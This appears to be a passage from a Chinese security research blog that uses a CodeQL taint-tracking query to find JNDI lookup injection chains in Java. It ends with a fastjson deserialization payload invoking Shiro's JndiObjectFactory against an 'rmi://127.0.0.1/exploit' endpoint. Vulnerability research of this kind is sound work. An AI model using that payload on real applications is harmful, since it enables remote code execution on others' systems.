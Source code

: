 	• 引用类型
		○ 所有的引用类型都继承自 java.lang.Object
		○ 类，枚举，数组，接口都是引用类型
		○ java.io.Serializable 接口，基本类型的包装类（比如 java.lang.Double）也是引用类型

之前直接查找对应的setXXX、getXXX函数，从数据流的路径中看到的参数是函数内调用的成员变量jndiName

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/codeql_photo/11.png)

从成员变量的访问作为souce来分析的话，需要获取 目标表达式中调用到source的情况。通过如下实现

    fac.getSite().getName().indexOf("get")=0 or fac.getSite().getName().indexOf("set")=0)
    
完整代码如下：

    /**
    @kind path-problem
    */
    import java
    import semmle.code.java.dataflow.FlowSources
    import semmle.code.java.dataflow.TaintTracking2
    import DataFlow2::PathGraph
    
    class JNDIMethod extends Method{
    JNDIMethod(){
    this.getDeclaringType().getAnAncestor().hasQualifiedName("javax.naming", "Context")
    and this.hasName("lookup")
    }
    }
    
    class TaintTrackingConfiguration extends TaintTracking2::Configuration{
    TaintTrackingConfiguration(){
    this = "TaintTrackingConfiguration"
    }
    override predicate isSource(DataFlow::Node source) {
    exists(FieldAccess fac |
    (fac.getSite().getName().indexOf("get")=0 or fac.getSite().getName().indexOf("set")=0) and source.asExpr() = fac
    )
    }
    
    override predicate isSink(DataFlow::Node sink){
    exists(MethodAccess call | 
    call.getMethod() instanceof JNDIMethod and sink.asExpr() = call.getArgument(0)
    )
    }
    }
    
    from  TaintTrackingConfiguration config, DataFlow2::PathNode source, DataFlow2::PathNode sink
    where config.hasFlowPath(source, sink)
    select source.getNode(), source, sink, sink.getNode()


发现新的执行链

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/codeql_photo/12.png)


    String input = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\", \"resourceName\":\"rmi://127.0.0.1/exploit\"}";
    Object obj = JSON.parseObject(input);
